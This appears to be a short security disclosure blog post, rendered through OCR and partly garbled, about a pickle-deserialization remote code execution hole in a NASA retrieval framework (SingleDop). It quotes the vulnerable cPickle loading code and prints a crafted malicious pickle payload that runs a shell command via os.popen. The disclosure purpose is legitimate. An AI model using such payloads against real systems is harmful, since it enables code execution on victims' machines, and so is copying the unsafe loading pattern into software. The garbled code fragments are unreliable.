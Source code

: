 ```yaml
---
layout: post
title: CVE-2018-1000048
subtitle: Remote code execution in Nasa satellites and systems
image: /img/nasa_insignia_300.jpg
gh-repo: cr1at0rs/cr1at0rs.github.io
gh-badge:
  - star
  - fork
  - follow
published: true
---
```

### RtRetrievalFramework

![RT Retrieval Framework]({{site.baseurl}}/img/Screen Shot 2018-02-27 at 11.24.01 AM.png)

RtRetrievalFramework

or fname in flist: 14 with open(fname) as f: 15 t = cPickle.load(f) 16 xco2_a = t["XCO2_a"] … 23 with open("my_cov.pkl") as f: 24 dist_cov = cPickle.load(f) 25

Remote code execution potential vulnerability in Singledop. Pickle module enables binary serialization and loading of Python datatypes and any user supplied sample file can lead to remote code execution on any researches machine processing a serialized file.


### Attack binary a valid DOP file:

mona@mona-virtual-machine:~/Downloads/SingleDop$ cat t_file

Exploit file:

 cos popen (S'uname -a' tRp100 0c__builtin__ getattr (c__builtin__ file S'read' tRp101 0c__builtin__ apply (g101 (g100 I1000 ltRp102 0c__builtin__ getattr (c__builtin__ file S'close' tRp103 0c__builtin__ apply (g103 (g100 ltRp104 0g102 .

